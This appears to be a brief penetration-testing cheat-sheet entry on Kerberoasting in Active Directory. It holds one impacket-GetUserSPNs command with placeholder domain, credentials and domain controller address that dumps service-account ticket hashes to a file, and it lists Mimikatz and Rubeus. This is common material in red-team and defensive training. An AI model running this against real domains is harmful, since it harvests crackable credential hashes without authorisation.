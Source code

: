 # Kerberoasting
By default, all standard domain users can request a copy of all service accounts ST (with SPN value set) along with their correlating password hashes.
`impacket-GetUserSPNs 'DOMAIN/USER:PASSWORD' -outputfile kerb.hash -dc-ip IP`
`Mimikatz`
`Rubeus`